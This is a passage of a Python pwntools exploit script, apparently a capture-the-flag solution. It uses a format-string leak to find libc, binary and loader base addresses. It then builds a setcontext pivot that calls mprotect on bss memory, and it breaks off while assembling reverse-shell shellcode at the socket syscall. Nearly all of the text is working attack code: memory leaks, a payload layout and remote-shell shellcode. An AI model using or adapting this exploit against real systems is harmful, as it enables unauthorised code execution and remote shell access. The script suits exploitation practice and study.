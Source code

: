 ```python
	p.send("%a"*5)
	p.recvuntil("0x0.0")
	p.recvuntil("0x0.0")
	libc.address = int(p.recvuntil('p',drop=True),16)-0x1e57e3
	p.recvuntil('p')
	p.recvuntil('p')
	p.recvuntil("0x0.0")
	elf.address = int(p.recvuntil('p',drop=True),16)-0x2019
	cmd(7)
	p.recvuntil("Addr: ")
	p.send(str(libc.symbols['_rtld_global']))
	ld = u64(p.recv(8))-0x2b060
	
	info("libc : " + hex(libc.address))
	info("elf : " + hex(elf.address))
	info("ld : " + hex(ld))
	# bss overflow
	# 0x7f4db5eede35 <setcontext+53>:	mov    rsp,QWORD PTR [rdx+0xa0]
	# 0x7f4db5eede3c <setcontext+60>:	mov    rbx,QWORD PTR [rdx+0x80]
	# 0x7f4db5eede43 <setcontext+67>:	mov    rbp,QWORD PTR [rdx+0x78]
	# 0x7f4db5eede47 <setcontext+71>:	mov    r12,QWORD PTR [rdx+0x48]
	# 0x7f4db5eede4b <setcontext+75>:	mov    r13,QWORD PTR [rdx+0x50]
	# 0x7f4db5eede4f <setcontext+79>:	mov    r14,QWORD PTR [rdx+0x58]
	# 0x7f4db5eede53 <setcontext+83>:	mov    r15,QWORD PTR [rdx+0x60]
	# 0x7f4db5eede57 <setcontext+87>:	mov    rcx,QWORD PTR [rdx+0xa8]
	# 0x7f4db5eede5e <setcontext+94>:	push   rcx
	# 0x7f4db5eede5f <setcontext+95>:	mov    rsi,QWORD PTR [rdx+0x70]
	# 0x7f4db5eede63 <setcontext+99>:	mov    rdi,QWORD PTR [rdx+0x68]
	# 0x7f4db5eede67 <setcontext+103>:	mov    rcx,QWORD PTR [rdx+0x98]
	# 0x7f4db5eede6e <setcontext+110>:	mov    r8,QWORD PTR [rdx+0x28]
	# 0x7f4db5eede72 <setcontext+114>:	mov    r9,QWORD PTR [rdx+0x30]
	# 0x7f4db5eede76 <setcontext+118>:	mov    rdx,QWORD PTR [rdx+0x88]
	# 0x7f4db5eede7d <setcontext+125>:	xor    eax,eax
	# 0x7f4db5eede7f <setcontext+127>:	ret
	cmd(1)
	offset = libc.symbols["setcontext"]-elf.address
	payload = p64(elf.address+0x4020)+p64(offset)
	payload = payload.ljust(0x58,b"\x00")
	payload += p64(elf.address+0x000000000004000)  #rdi
	payload += p64(0x1000)  #rsi
	payload += p64(elf.address+0x4400)	#rbp
	payload += p64(0) + p64(7)	# rbx , rdx
	payload = payload.ljust(0x88,b"\x00")
	payload += p64(elf.address+0x4020)
	payload += p64(elf.address+0x4100)	#rsp
	payload += p64(libc.symbols["mprotect"])
	payload = payload.ljust(0xd0,b"\x00")
	payload += p64(elf.address+0x4020)	#bypass fldenv [rcx]
	payload += p64(0)
	payload += p64(elf.address+0x4110)
	payload += b'\x90'*0x10
	
	reverse_shell = asm('''
		//socket(AF_INET,SOCK_STREAM,0)
		xor rdx,rdx
		xor rsi,rsi
		inc rsi
		xor rdi,rdi
		inc rdi
		inc rdi
		xor rax,rax
		mov al,41
		syscall
```